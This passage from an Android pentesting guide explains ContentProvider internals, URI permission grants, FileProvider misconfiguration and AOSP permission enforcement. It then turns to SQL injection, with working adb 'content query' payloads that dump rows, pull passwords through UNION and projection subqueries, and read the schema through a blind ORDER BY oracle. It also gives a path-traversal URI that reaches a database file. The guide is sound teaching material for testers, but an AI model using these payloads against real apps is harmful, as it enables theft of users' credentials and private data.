| `bulkInsert(uri, ContentValues[])` | Multiple inserts in one transaction | Default implementation loops over `insert()` |
| `applyBatch(authority, ArrayList<ContentProviderOperation>)` | Atomic multi-operation batch | Runs inside one transaction; a good DoS vector |
| `getType(uri)` | MIME type | Unprotected — see above |
| `getStreamTypes(uri, mimeTypeFilter)` | Available stream types | Unprotected |
| `openInputStream(uri)` / `openOutputStream(uri)` | Convenience wrappers over `openAssetFile` | The usual path-traversal entry point |
| `openFileDescriptor(uri, mode)` | Raw `ParcelFileDescriptor` | Mode string is `r`, `w`, `rw`, `rwt`, `wa` |
| `call(uri, method, arg, extras)` | The RPC | Unprotected by default |
| `registerContentObserver(uri, notifyForDescendants, observer)` | Subscribe to change notifications | See [3.7](#37-contentobserver-and-notification-leakage) |
| `takePersistableUriPermission(uri, flags)` | Make a temporary grant survive reboot | See [3.6](#36-uri-permissions-the-temporary-grant-system) |
| `acquireContentProviderClient(uri)` | Long-lived handle, avoids repeated lookup | Faster fuzzing |
| `acquireUnstableContentProviderClient(uri)` | Same, but the caller is not killed if the provider's process dies | **Use this when fuzzing**, or you will crash your own tool |

> **Warning**
> If you fuzz a provider with `acquireContentProviderClient` (the stable variant) and your input
> crashes the target process, **your own process is killed too**. This is deliberate framework
> behaviour: a stable provider reference means "I cannot function without this provider". Always fuzz
> through `acquireUnstableContentProviderClient`, or through `adb shell content`, which handles this
> for you.

### 3.5 `UriMatcher` — how a provider routes a URI

Nearly every provider uses `UriMatcher` to turn a URI into an integer code:

```java
// Provider — typical routing setup
private static final int NOTES      = 1;
private static final int NOTE_ID    = 2;
private static final int NOTE_FILES = 3;

private static final UriMatcher MATCHER = new UriMatcher(UriMatcher.NO_MATCH);
static {
    MATCHER.addURI("com.example.notes.provider", "notes",       NOTES);
    MATCHER.addURI("com.example.notes.provider", "notes/#",     NOTE_ID);
    MATCHER.addURI("com.example.notes.provider", "notes/*/files", NOTE_FILES);
}
```

| Wildcard | Matches | Example |
|---|---|---|
| `*` | Exactly one path segment, any characters | `notes/*` matches `notes/abc`, not `notes/a/b` |
| `#` | Exactly one path segment consisting only of digits | `notes/#` matches `notes/42`, not `notes/abc` |

`UriMatcher` returns `NO_MATCH` (`-1`) for anything unrecognised, and the conventional provider
response is `throw new IllegalArgumentException("Unknown URI: " + uri)`.

> **Pentester's Note**
> That exception is a **discovery oracle**. If `content query --uri content://x/foo` returns
> `IllegalArgumentException: Unknown URI` and `content query --uri content://x/notes` returns a
> permission error or an empty cursor, you have distinguished a valid path from an invalid one without
> ever reading data. Diffing error messages across a wordlist is how you enumerate the paths of a
> provider whose source you do not have. The script
> [`scripts/provider-enum.sh`](scripts/provider-enum.sh) automates exactly this.

`UriMatcher` has a subtlety worth knowing. It builds a tree of path segments and matches literally
against `uri.getPathSegments()`. It does **not** normalise the path: `notes/../notes` is three
segments (`notes`, `..`, `notes`) and will not match `notes/#`. That is a defence for the *matcher*,
but it says nothing about what happens after matching — a provider that uses `uri.getLastPathSegment()`
to build a file path is still traversable, because `getLastPathSegment()` on
`content://a/files/..%2F..%2Fdatabases%2Fapp.db` gives you exactly what the attacker wrote.

### 3.6 URI permissions: the temporary grant system

This is the mechanism that lets you attach a photo to an email without giving the mail app permission
to read your entire gallery, and it is a rich source of bugs.

> **Definition**
> A **URI permission grant** is a temporary, per-URI, per-package authorisation recorded inside
> `ActivityManagerService` that allows a specific application to perform read and/or write operations
> on one specific `content://` URI, regardless of whether that application holds the provider's
> declared permissions.

The flow:



The manifest side of this has two levels of control.

**Level 1 — `android:grantUriPermissions` on the `<provider>`.** If `true`, *any* URI under the
provider may be granted. If `false` (the default), only URIs matching a nested
`<grant-uri-permission>` element may be granted.

**Level 2 — `<grant-uri-permission>` children.** Each element restricts grantable URIs by path:

```xml
<provider
    android:name=".GalleryProvider"
    android:authorities="com.example.gallery"
    android:exported="false"
    android:grantUriPermissions="false">
    <grant-uri-permission android:pathPrefix="/photo/" />
    <grant-uri-permission android:pathPattern="/thumb/.*\\.jpg" />
</provider>
```

| Attribute | Matching rule | Notes |
|---|---|---|
| `android:path` | Exact, complete match of the path | Most restrictive, least used |
| `android:pathPrefix` | The path must start with this string | The common choice |
| `android:pathPattern` | A restricted glob: `*` means "zero or more of the preceding character", `.*` means "any sequence" | **Not a real regex.** `*` alone is a repetition operator on the *previous* character, not a wildcard. This trips up nearly everyone. |
| `android:pathSuffix` | The path must end with this string (API 31+) | |
| `android:pathAdvancedPattern` | A genuine, if limited, regex (API 31+) | |

> **Warning**
> `android:pathPattern="/files/*"` does **not** mean "anything under `/files/`". In Android's
> simplified glob syntax, `*` repeats the preceding character, so `/files/*` means "`/file`, then zero
> or more `s`, then `/`" — which is almost certainly not what the developer meant. To match anything,
> you need `/files/.*`. Developers get this wrong constantly, in both directions: sometimes the rule
> is narrower than intended (a functional bug, so it gets found and fixed), and sometimes it is wider
> (a security bug, so it does not). Check every `pathPattern` in a manifest by hand.

**The flags.** URI grants are requested with `Intent` flags:

| Flag | Value | Effect |
|---|---|---|
| `FLAG_GRANT_READ_URI_PERMISSION` | `0x00000001` | Recipient may read the URI |
| `FLAG_GRANT_WRITE_URI_PERMISSION` | `0x00000002` | Recipient may write the URI |
| `FLAG_GRANT_PERSISTABLE_URI_PERMISSION` | `0x00000040` | Recipient may call `takePersistableUriPermission()` to keep access across reboots (API 19+) |
| `FLAG_GRANT_PREFIX_URI_PERMISSION` | `0x00000080` | The grant covers the URI **and everything under it** (API 21+) |

`FLAG_GRANT_PREFIX_URI_PERMISSION` is worth staring at. It converts a grant on
`content://provider/user/7` into a grant on `content://provider/user/7/**`. Combine that with a
provider whose path parsing is loose and you have a wide read.

Grants are also created by `Context.grantUriPermission(toPackage, uri, flags)` directly, and revoked
with `revokeUriPermission()`. A grant created by `grantUriPermission()` and never revoked lives until
the device reboots.

Inspect live grants:

```bash
# adb shell — every currently-held URI permission grant on the device
dumpsys activity permissions
```

```bash
# adb shell — persisted grants survive reboot; check them separately
dumpsys activity providers | sed -n '/Granted Uri Permissions/,/^$/p'
```

> **Under the Hood**
> A grant is stored in `ActivityManagerService` as a `UriPermission` object keyed by
> `(sourceUid, targetUid, GrantUri)`. When `ContentProviderHelper.checkContentProviderPermission()`
> denies access based on the declared permission, it falls through to
> `checkUriPermission()`/`checkGrantUriPermission()`, which consults that table. Persisted grants are
> serialised to `/data/system/urigrants.xml` and reloaded at boot. Reading that file on a rooted
> device is a fast way to see which apps have long-lived cross-app data access, and it is a genuinely
> useful forensic artefact.

### 3.7 `ContentObserver` and notification leakage

A client can subscribe to changes:

```java
// Client app
getContentResolver().registerContentObserver(
        Uri.parse("content://com.example.notes.provider/notes"),
        true,                        // notifyForDescendants
        new ContentObserver(new Handler(Looper.getMainLooper())) {
            @Override public void onChange(boolean selfChange, Uri uri) {
                Log.i("obs", "changed: " + uri);
            }
        });
```

The provider triggers these by calling `getContext().getContentResolver().notifyChange(uri, null)`
after a mutation.

Two security consequences.

**Registration requires read permission, but the notification carries a URI.** Since the URI often
encodes a row ID, an observer learns *that row 4471 changed* — an information leak about activity
patterns even when the observer cannot read the row. On an unprotected exported provider, an observer
gets a real-time activity feed of the target app.

**`notifyForDescendants = true` widens the subscription.** Registering on
`content://com.example.notes.provider` with descendants enabled subscribes to every path under that
authority. When enumerating a provider you do not have source for, registering a descendant observer
and then using the app normally will reveal path names the app actually uses — a very effective
discovery technique that requires no guessing.

### 3.8 `FileProvider` in full

`FileProvider` is a concrete `ContentProvider` subclass shipped in AndroidX
(`androidx.core.content.FileProvider`) whose entire job is to convert a `File` into a `content://`
URI that can be granted to another app.

It exists because of a platform change: since Android 7.0 (API 24), passing a `file://` URI outside
your app throws `FileUriExposedException`. The reasoning is sound — a `file://` URI carries no
identity, no grant and no revocation, and the receiving app either can read the path or cannot, based
on filesystem permissions the sender does not control.

Declaration:

```xml
<!-- AndroidManifest.xml -->
<provider
    android:name="androidx.core.content.FileProvider"
    android:authorities="${applicationId}.fileprovider"
    android:exported="false"
    android:grantUriPermissions="true">
    <meta-data
        android:name="android.support.FILE_PROVIDER_PATHS"
        android:resource="@xml/file_paths" />
</provider>
```

Note `android:exported="false"` combined with `android:grantUriPermissions="true"`. That combination
is not a contradiction: it means "no app can reach this provider on its own initiative, but I can
hand out per-URI grants". This is the correct configuration and you should be suspicious of any
`FileProvider` declared with `exported="true"`.

The `<paths>` resource is where the real configuration lives:

```xml
<!-- res/xml/file_paths.xml -->
<paths>
    <files-path          name="internal_shared"  path="shared/" />
    <cache-path          name="internal_cache"   path="tmp/" />
    <external-path       name="ext"              path="Pictures/" />
    <external-files-path name="ext_files"        path="docs/" />
    <external-cache-path name="ext_cache"        path="tmp/" />
    <external-media-path name="ext_media"        path="media/" />
    <root-path           name="root"             path="/" />
</paths>
```

Each element declares a **root directory** and a **name**. The generated URI is
`content://<authority>/<name>/<relative path under the root>`.

| Element | Maps to | Typical absolute path |
|---|---|---|
| `<files-path>` | `Context.getFilesDir()` | `/data/user/0/<pkg>/files` |
| `<cache-path>` | `Context.getCacheDir()` | `/data/user/0/<pkg>/cache` |
| `<external-path>` | `Environment.getExternalStorageDirectory()` | `/storage/emulated/0` |
| `<external-files-path>` | `Context.getExternalFilesDir(null)` | `/storage/emulated/0/Android/data/<pkg>/files` |
| `<external-cache-path>` | `Context.getExternalCacheDir()` | `/storage/emulated/0/Android/data/<pkg>/cache` |
| `<external-media-path>` | `Context.getExternalMediaDirs()[0]` | `/storage/emulated/0/Android/media/<pkg>` |
| `<root-path>` | The filesystem root, `/` | `/` |

> **Warning — the classic `root-path` misconfiguration**
> ```xml
> <!-- res/xml/file_paths.xml — DO NOT DO THIS -->
> <paths>
>     <root-path name="root" path="." />
> </paths>
> ```
> This declares the entire filesystem as a shareable root. `FileProvider.getUriForFile()` will now
> happily produce a URI for `/data/data/<pkg>/databases/secrets.db`, `/data/data/<pkg>/shared_prefs/auth.xml`,
> or anything else the app's UID can read. Any code path in the app that lets an attacker influence
> which file is shared becomes an arbitrary-file-read primitive with the app's privileges. This
> configuration appears on Stack Overflow as the answer to "FileProvider says the file is outside the
> configured paths", and it is copy-pasted into production constantly. Searching every APK you assess
> for `<root-path` is a thirty-second check with a high hit rate.

`FileProvider`'s own path resolution is, to its credit, careful. `getUriForFile()` calls
`File.getCanonicalPath()` on the target and verifies it starts with the canonical path of a configured
root — which defeats `../` traversal at *URI generation* time. And `openFile()` decodes the URI back
to a file by looking up the root by name and appending the remaining segments, again canonicalising.
The vulnerability is therefore almost never in `FileProvider` itself; it is in

1. an over-broad `<paths>` configuration, or
2. a **custom** provider that reimplements the FileProvider idea without the canonicalisation, or
3. an application code path that lets an attacker choose which `File` gets converted to a URI.

### 3.9 `openFile`, `openAssetFile` and the pipe helpers

```java
// Provider
@Override
public ParcelFileDescriptor openFile(@NonNull Uri uri, @NonNull String mode)
        throws FileNotFoundException {
    File f = new File(getContext().getFilesDir(), "public/" + uri.getLastPathSegment());
    return ParcelFileDescriptor.open(f, ParcelFileDescriptor.parseMode(mode));
}
```

The `mode` string maps to open flags:

| Mode | Flags | Meaning |
|---|---|---|
| `"r"` | `MODE_READ_ONLY` | Read only |
| `"w"` | `MODE_WRITE_ONLY \| MODE_CREATE \| MODE_TRUNCATE` | Write, create if absent, truncate |
| `"wa"` | `MODE_WRITE_ONLY \| MODE_CREATE \| MODE_APPEND` | Append |
| `"rw"` | `MODE_READ_WRITE \| MODE_CREATE` | Read and write |
| `"rwt"` | `MODE_READ_WRITE \| MODE_CREATE \| MODE_TRUNCATE` | Read and write, truncated |

> **Under the Hood**
> `ParcelFileDescriptor` is a genuine Linux file descriptor passed across Binder using
> `SCM_RIGHTS`-style FD duplication in the binder driver. Once the receiving process has the FD, the
> sending process's permission checks are irrelevant — the kernel has already granted access to the
> open file description. This is why an `openFile` traversal is so powerful: you do not get a copy of
> the data mediated by the provider, you get a real handle to the real file, opened with the *target
> app's* UID. If the mode is writable, you can also modify it.

`openAssetFile` returns an `AssetFileDescriptor`, which adds a start offset and a length so that many
logical files can live inside one physical file (this is how APK assets are served). The default
`openAssetFile` implementation delegates to `openFile`, and the default `openFile` throws
`FileNotFoundException`. A provider that overrides only `openAssetFile` still needs auditing.

Two helper methods let a provider stream generated data instead of a real file:

```java
// Provider — serve dynamically generated bytes without a temp file
return openPipeHelper(uri, "text/plain", null, data, new PipeDataWriter<String>() {
    @Override public void writeDataToPipe(ParcelFileDescriptor output, Uri uri,
            String mimeType, Bundle opts, String args) {
        try (OutputStream os = new FileOutputStream(output.getFileDescriptor())) {
            os.write(args.getBytes(StandardCharsets.UTF_8));
        } catch (IOException ignored) { }
    }
});
```

`openPipeHelper` creates a `socketpair`, hands one end to the caller and spawns an `AsyncTask` to
write the other. The tester-relevant point is that the data returned need not correspond to any file,
so "there is no file path here" does not mean "there is nothing to attack" — the `args` object is
still attacker-influenced.

### 3.10 The `Bundle`-based query API (API 26+)

```java
// Client — the modern query form
Bundle args = new Bundle();
args.putString(ContentResolver.QUERY_ARG_SQL_SELECTION, "owner = ?");
args.putStringArray(ContentResolver.QUERY_ARG_SQL_SELECTION_ARGS, new String[]{"me"});
args.putString(ContentResolver.QUERY_ARG_SQL_SORT_ORDER, "created DESC");
args.putInt(ContentResolver.QUERY_ARG_LIMIT, 20);
args.putInt(ContentResolver.QUERY_ARG_OFFSET, 0);
Cursor c = cr.query(uri, projection, args, null);
```

| Key | Constant | Notes |
|---|---|---|
| `android:query-arg-sql-selection` | `QUERY_ARG_SQL_SELECTION` | Same injection surface as the legacy `selection` |
| `android:query-arg-sql-selection-args` | `QUERY_ARG_SQL_SELECTION_ARGS` | Safe bind channel |
| `android:query-arg-sql-sort-order` | `QUERY_ARG_SQL_SORT_ORDER` | Same injection surface as legacy `sortOrder` |
| `android:query-arg-limit` | `QUERY_ARG_LIMIT` | Integer |
| `android:query-arg-offset` | `QUERY_ARG_OFFSET` | Integer |
| `android:query-arg-sort-columns` | `QUERY_ARG_SORT_COLUMNS` | Structured alternative to raw SQL |
| `android:query-arg-sort-direction` | `QUERY_ARG_SORT_DIRECTION` | `QUERY_SORT_DIRECTION_ASCENDING` / `DESCENDING` |

`ContentProvider`'s default `query(Uri, String[], Bundle, CancellationSignal)` implementation unpacks
the bundle into the legacy five-argument form and calls it. So a provider that only overrides the
legacy signature is still reachable through the bundle API, and vice versa a provider that overrides
the bundle form may have *forgotten* to sanitise there while sanitising the legacy path. Test both.

### 3.11 Provider lifecycle and process behaviour



The important observations from this diagram:

`ContentProvider.onCreate()` runs on the **main thread** and blocks application startup. Doing I/O
there is a performance bug the framework will complain about, but more relevantly to you, it means
the code in `onCreate()` runs before you can attach a debugger to a normally-launched app. Use
`frida -U -f <pkg>` to spawn-and-inject, not `-n` to attach.

There is no `onDestroy()`. A provider's process dies. `shutdown()` exists but is only invoked
by test frameworks. Any cleanup a provider "does on shutdown" does not happen in practice, so
temporary files created by a provider tend to accumulate — a small but real information-disclosure
source when the temp directory is world-accessible.

### 3.12 Version matrix

| Android version | API | Change relevant to providers |
|---|---|---|
| 4.1 Jelly Bean | 16 | Last version where `exported` defaulted to `true` |
| 4.2 Jelly Bean MR1 | 17 | `exported` defaults to `false` for `targetSdk >= 17` |
| 4.4 KitKat | 19 | Storage Access Framework and `DocumentsProvider`; persistable URI permissions |
| 5.0 Lollipop | 21 | `FLAG_GRANT_PREFIX_URI_PERMISSION` |
| 6.0 Marshmallow | 23 | Runtime permissions — a `dangerous` provider permission is now prompted, not install-granted |
| 7.0 Nougat | 24 | `file://` URIs outside the app throw `FileUriExposedException`; `FileProvider` becomes mandatory in practice. `MODE_WORLD_READABLE`/`WRITEABLE` throw |
| 8.0 Oreo | 26 | `Bundle`-based `query()`; background execution limits affect provider-triggered work |
| 10 Q | 29 | Scoped storage: `MediaStore` becomes the mandated route to shared media; direct paths to external storage stop working |
| 11 R | 30 | **Package visibility filtering.** `queryContentProviders` and `resolveContentProvider` now return only packages your app can "see" unless you declare `<queries>` or hold `QUERY_ALL_PACKAGES`. This changes enumeration from a test app. |
| 12 S | 31 | `android:exported` must be explicit for components with intent filters; `pathSuffix` and `pathAdvancedPattern` added |
| 13 T | 33 | `getTypeAnonymous()` — the platform routes MIME-type queries from untrusted callers here, hardening the `getType` leak |
| 14 U | 34 | Tightened implicit-intent and `PendingIntent` rules that affect grant-laundering chains |

> **Pentester's Note**
> The Android 11 package-visibility change is the one that most often confuses testers writing their
> own enumeration app. Your test app calls `PackageManager.getInstalledPackages()` and sees almost
> nothing, so you conclude the device is clean. Add
> `<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES" />` to your test harness's
> manifest — it is a normal-protection permission for this purpose on a test device — or enumerate
> from `adb shell`, which is unaffected.Play Store policy restricts `QUERY_ALL_PACKAGES` for
> published apps; that restriction does not apply to a local test harness you sideload.

---
## 4. Source Code Walkthrough (AOSP)

The files below are the ones you will actually open when you need to answer "is this really
unprotected?" with certainty rather than with a checklist.

| File | Role |
|---|---|
| `frameworks/base/core/java/android/content/ContentProvider.java` | The abstract base class, and crucially the inner `Transport` class that performs permission enforcement |
| `frameworks/base/core/java/android/content/ContentResolver.java` | Client-side API; `query`, `openFileDescriptor`, `call`, observer registration |
| `frameworks/base/core/java/android/content/ContentProviderNative.java` | The Binder proxy/stub pair (`IContentProvider` transaction codes) |
| `frameworks/base/core/java/android/content/IContentProvider.java` | The AIDL-shaped interface definition |
| `frameworks/base/core/java/android/app/ActivityThread.java` | `installContentProviders()`, `acquireProvider()`, provider reference counting |
| `frameworks/base/services/core/java/com/android/server/am/ContentProviderHelper.java` | Modern home of `getContentProviderImpl()` and `checkContentProviderPermission()` (previously inside `ActivityManagerService.java`) |
| `frameworks/base/services/core/java/com/android/server/uri/UriGrantsManagerService.java` | URI permission grants: creation, checking, persistence |
| `frameworks/base/core/java/android/content/UriMatcher.java` | Path routing |
| `frameworks/base/core/java/android/database/sqlite/SQLiteQueryBuilder.java` | Where `setStrict*` lives — the framework's own anti-injection mechanism |
| `frameworks/base/core/java/android/os/ParcelFileDescriptor.java` | FD passing |
| `frameworks/base/cmds/content/src/com/android/commands/content/Content.java` | The `content` shell command — read this to know exactly what your CLI can and cannot express |

### 4.1 `ContentProvider.Transport` — where enforcement actually happens

Every `ContentProvider` has a package-private inner class `Transport extends ContentProviderNative`.
This is the object that is published over Binder; your subclass is never exposed directly. `Transport`
is the trust boundary.

The shape of the code (abridged, semantically accurate):

```java
// frameworks/base/core/java/android/content/ContentProvider.java  (abridged)
class Transport extends ContentProviderNative {

    @Override
    public Cursor query(AttributionSource attributionSource, Uri uri, String[] projection,
            Bundle queryArgs, ICancellationSignal cancellationSignal) {
        uri = validateIncomingUri(uri);
        uri = maybeGetUriWithoutUserId(uri);
        if (enforceReadPermission(attributionSource, uri) != MODE_ALLOWED) {
            // Callers without permission still get an (empty) cursor describing the columns,
            // rather than an exception, when in "app op mode ignored" state.
            ...
        }
        return ContentProvider.this.query(uri, projection, queryArgs, signal);
    }

    @Override
    public Bundle call(AttributionSource attributionSource, String authority,
            String method, String arg, Bundle extras) {
        validateIncomingAuthority(authority);
        // NOTE: no per-URI permission check is possible here — there is no URI.
        return ContentProvider.this.call(authority, method, arg, extras);
    }
}
```

Three things to take from this.

**`validateIncomingUri()` exists and does very little.** It checks the URI's user ID component (the
`@userId` prefix used for cross-profile access) and rejects mismatches. It does **not** normalise the
path, decode traversal sequences, or validate the authority against the provider's declared
authorities beyond a user check. Do not expect the framework to have cleaned your input.

**`enforceReadPermission` / `enforceWritePermission` consult, in order:** the provider's
`readPermission`/`writePermission`, then any matching `<path-permission>` entry, then any URI grant
held by the caller, then the associated AppOp. The failure mode is a `SecurityException` thrown *in
the caller's process* when the Binder reply is unparcelled.

**`call()` receives no URI**, so no URI-scoped check is even expressible. In current AOSP,
`Transport.call()` does not invoke `enforceReadPermission`. Provider-level permission enforcement for
`call()` happens earlier, in `system_server`, when the caller acquires the provider — which means a
provider with **no declared permission** and `exported="true"` has a completely open `call()`.

### 4.2 Acquiring a provider: the `system_server` side

`ContentResolver.query()` begins with `acquireUnstableProvider(uri)`, which reaches
`ActivityThread.acquireProvider()`. If the provider is not already held by this process,
`ActivityThread` makes a Binder call to `IActivityManager.getContentProvider()`, landing in
`ContentProviderHelper.getContentProviderImpl()` inside `system_server`.

The essential logic there, in order:

1. Look up the authority in `mProviderMap`. If unknown, ask `PackageManagerService` to resolve it
   (`resolveContentProvider`), which reads the parsed manifest data.
2. Call `checkContentProviderPermission()` with the calling PID and UID.
3. If the check fails, throw `SecurityException` back to the caller.
4. If the provider's process is not running, call `startProcessLocked()` and **block the caller** until
   the provider publishes itself (`publishContentProviders`) or a timeout expires.
5. Return a `ContentProviderHolder` carrying the `IContentProvider` Binder.

`checkContentProviderPermission()` itself:

```java
// frameworks/base/services/core/java/com/android/server/am/ContentProviderHelper.java  (abridged)
private String checkContentProviderPermission(ProviderInfo cpi, int callingPid, int callingUid,
        int userId, boolean checkUser, String appName) {

    if (checkUser) { /* cross-user checks, INTERACT_ACROSS_USERS */ }

    if (ActivityManagerService.checkComponentPermission(cpi.readPermission,
            callingPid, callingUid, cpi.applicationInfo.uid, cpi.exported)
            == PackageManager.PERMISSION_GRANTED) {
        return null;   // null means "allowed"
    }
    if (ActivityManagerService.checkComponentPermission(cpi.writePermission,
            callingPid, callingUid, cpi.applicationInfo.uid, cpi.exported)
            == PackageManager.PERMISSION_GRANTED) {
        return null;
    }

    PathPermission[] pps = cpi.pathPermissions;
    if (pps != null) { /* ... per-path read/write permissions ... */ }

    // Finally: does this caller already hold a URI grant for anything in this provider?
    ...
    String msg = "Permission Denial: opening provider " + cpi.name + " from " + appName
            + " (pid=" + callingPid + ", uid=" + callingUid + ")"
            + " requires " + cpi.readPermission + " or " + cpi.writePermission;
    return msg;   // non-null means "denied"
}
```

`checkComponentPermission()` short-circuits in two ways that you must internalise:

- If `callingUid` equals the provider's own UID, access is granted unconditionally. Same-UID apps
  (two APKs sharing `android:sharedUserId`) bypass provider permissions entirely.
- If the component is **not exported** and the caller is a different UID, permission is denied
  regardless of what permissions the caller holds — *unless* the caller holds
  `android.permission.INTERACT_ACROSS_USERS_FULL`-class system privileges, or is root/system.

> **Warning**
> Note the last point carefully. `adb shell` runs as UID 2000 with a privileged permission set. A
> `content query` from `adb shell` succeeding does **not** prove the provider is reachable by a normal
> third-party app. This is exactly the same false-positive trap as `am start` against a non-exported
> activity, described in [77-UsefulCommands](../77-UsefulCommands/README.md). Confirm with a test app
> running as a normal UID or with Drozer, which runs as an ordinary application.

### 4.3 The full path of one `query()` call

Take `getContentResolver().query(Uri.parse("content://com.example.p/notes"), null, null, null, null)`
from an attacking app.

1. `ContentResolver.query()` (`ContentResolver.java`) calls `acquireUnstableProvider(uri)`.
2. `ApplicationContentResolver.acquireUnstableProvider()` calls
   `ActivityThread.acquireProvider(context, auth, userId, false)`.
3. `ActivityThread.acquireExistingProvider()` misses the local cache, so `ActivityThread` calls
   `ActivityManager.getService().getContentProvider(...)` — a Binder transaction to `system_server`.
4. `ContentProviderHelper.getContentProviderImpl()` resolves the authority, runs
   `checkContentProviderPermission()`, starts the target process if needed, waits for
   `publishContentProviders()`, and returns a `ContentProviderHolder`.
5. Back in the attacking process, `ActivityThread.installProvider()` records the reference and
   `ContentResolver` now has an `IContentProvider` proxy.
6. `ContentResolver.query()` calls `unstableProvider.query(mAttributionSource, uri, projection,
   queryArgs, remoteCancellationSignal)`.
7. `ContentProviderProxy.query()` (`ContentProviderNative.java`) writes the arguments into a `Parcel`
   and issues `transact(QUERY_TRANSACTION, ...)`.
8. The binder driver in the kernel copies the parcel into the provider process and wakes a thread from
   its Binder thread pool.
9. `ContentProviderNative.onTransact()` unparcels and calls `Transport.query()`.
10. `Transport.query()` runs `validateIncomingUri()` and `enforceReadPermission()`, then calls your
    `MyProvider.query()`.
11. Your code runs `SQLiteDatabase.query()`, producing a `SQLiteCursor` backed by a `CursorWindow` in
    ashmem.
12. The reply parcel carries the `CursorWindow`'s file descriptor plus row/column metadata.
13. In the caller, `CursorWrapperInner`/`BulkCursorToCursorAdaptor` maps the shared memory and the
    caller iterates rows without further IPC.

> **Under the Hood**
> Step 13 is why `Cursor.moveToNext()` is cheap. The window holds up to `CursorWindow`'s capacity
> (2 MB by default, 20 MB for some system providers) of rows; only when you move past the end of the
> window does the framework issue another Binder call to fetch the next window. A provider returning
> a million rows is therefore not a single enormous IPC, but it *is* an enormous amount of work in the
> provider's process — which is the basis of the DoS in [5.6](#56-denial-of-service-and-resource-exhaustion).

### 4.4 `SQLiteQueryBuilder` and the framework's own defence

AOSP recognised provider SQL injection long ago and built a defence into `SQLiteQueryBuilder`:

```java
// frameworks/base/core/java/android/database/sqlite/SQLiteQueryBuilder.java  (abridged)
public void setStrict(boolean flag)                  // enables all three below
public void setStrictColumns(boolean flag)           // projection must be in the projection map
public void setStrictGrammar(boolean flag)           // selection/sortOrder must parse as expected
public void setProjectionMap(Map<String,String> map) // whitelist of allowed columns
```

`setStrictColumns(true)` combined with `setProjectionMap()` rejects any projection column not in the
map. `setStrictGrammar(true)` parses the selection and sort order with a real tokeniser and rejects
anything containing statement separators, comments, or subqueries where they should not appear.
Historically, `setStrict(true)` performed a clever trick: it compiled the query twice, once as
`SELECT ... WHERE (<selection>)` and once as `SELECT ... WHERE (<selection>) AND 0=1`, and if the two
compiled forms differed structurally, the selection must have contained something that escaped its
parentheses.

If you are writing a remediation recommendation for a client, the strongest and shortest one is:
**use `SQLiteQueryBuilder` with `setProjectionMap()` and `setStrict(true)`, and pass all user values
through `selectionArgs`.** That is a two-line change that closes the entire injection class.

---

## 5. Security Perspective

Each subsection follows the same structure: the vulnerable code, why a competent developer wrote it,
the exploit, static and dynamic detection, the fix as code, and an honest severity assessment.

### 5.0 The threat model, stated precisely

The attacker is **another application installed on the same device**, holding no special permissions,
signed by a different key, running as a different UID. It may declare any permission with
`protectionLevel` `normal` and receive it silently at install. It may prompt the user for `dangerous`
permissions. It cannot obtain `signature` permissions belonging to the target.

That attacker can:

- Enumerate providers (subject to Android 11 package visibility).
- Call `query`, `insert`, `update`, `delete`, `getType`, `openFile`, `openAssetFile`, `call` on any
  provider that is exported and whose permission it satisfies.
- Cause the target's process to start.
- Register content observers.
- Receive URI grants from the target if the target ever sends it an intent with grant flags, or if it
  can induce the target to do so.

That attacker cannot, by these means alone:

- Read the target's private files directly (the sandbox still applies).
- Execute code in the target's process (except through a memory-corruption bug in native code the
  provider reaches).

The severity of every finding below is therefore judged by *what data or capability crosses the
sandbox boundary*.

### 5.1 SQL injection through selection, projection and sortOrder

#### The vulnerable code

```java
// VULNERABLE — Provider
public class NotesProvider extends ContentProvider {

    private SQLiteDatabase db;

    @Override
    public Cursor query(Uri uri, String[] projection, String selection,
                        String[] selectionArgs, String sortOrder) {

        String table = "notes";
        String cols  = (projection == null) ? "*" : TextUtils.join(",", projection);
        String where = TextUtils.isEmpty(selection) ? "1" : selection;
        String order = TextUtils.isEmpty(sortOrder) ? "_id ASC" : sortOrder;

        String sql = "SELECT " + cols + " FROM " + table
                   + " WHERE " + where
                   + " ORDER BY " + order;

        return db.rawQuery(sql, selectionArgs);
    }
}
```

#### Why a competent developer wrote this

This is not laziness; it is the natural result of three reasonable-sounding decisions.

The developer wanted the provider to be *flexible*, because their own UI needs to sort by different
columns and select different subsets. Passing the sort column through as a string is the obvious way
to do that, and there is no bind-parameter form for an `ORDER BY` column — SQLite genuinely does not
support `ORDER BY ?` in the way you would want. The same is true of the projection: column names
cannot be bound.

They also used `rawQuery(sql, selectionArgs)` and saw the `selectionArgs` parameter, which *looks*
like parameterisation and is even named after the safe mechanism. It is safe — for the values bound to
`?` placeholders in the `selection`. It does nothing whatsoever for the concatenated `cols` and
`order` strings.

And finally, they assumed the only caller was their own app, because they wrote the client code
themselves and it always passes sensible values.

#### The exploit

The three injection points behave differently and need different payloads. This is the part that most
write-ups omit.

**Selection injection** — the classic. The clause sits inside a `WHERE`, so you close it and add your
own condition:

```bash
# adb shell — dump every row regardless of the app's intended filter
content query --uri content://com.example.notes.provider/notes \
  --where "1=1"
```

```bash
# adb shell — boolean-based extraction; observe whether rows come back
content query --uri content://com.example.notes.provider/notes \
  --where "1=1 AND (SELECT substr(password,1,1) FROM users WHERE _id=1)='a'"
```

```bash
# adb shell — union to pull an entirely different table into the result set
content query --uri content://com.example.notes.provider/notes \
  --where "1=0 UNION SELECT _id, username, password FROM users --"
```

**Projection injection** — the column list. This one is powerful because the returned `Cursor`'s
column names and values come straight back to you, so it is a *direct* rather than blind read:

```bash
# adb shell — read a different table entirely via a scalar subquery in the projection
content query --uri content://com.example.notes.provider/notes \
  --projection "(SELECT group_concat(username||':'||password) FROM users) AS leak"
```

```bash
# adb shell — enumerate the schema; sqlite_master is present in every SQLite database
content query --uri content://com.example.notes.provider/notes \
  --projection "(SELECT group_concat(name||' => '||sql, char(10)) FROM sqlite_master) AS schema"
```

That second command is usually the first thing you should run against a provider you suspect. It
returns the complete `CREATE TABLE` statements for every table in the database, telling you exactly
what to steal next.

**Sort-order injection** — the `ORDER BY` clause. SQLite permits a subquery in `ORDER BY`, and it
evaluates it. Because the result is not returned to you directly, this is typically used
boolean-blind or with an error-based oracle:

```bash
# adb shell — boolean oracle: valid ORDER BY expression succeeds, invalid one throws
content query --uri content://com.example.notes.provider/notes \
  --sort "CASE WHEN (SELECT count(*) FROM users) > 0 THEN _id ELSE abs(-9223372036854775808) END"
```

`abs(-9223372036854775808)` raises "integer overflow" in SQLite, so the query fails loudly when the
condition is false and succeeds when it is true. That gives you one bit per request with no output
channel at all.

```bash
# adb shell — sort-order injection to leak a value one character at a time
content query --uri content://com.example.notes.provider/notes \
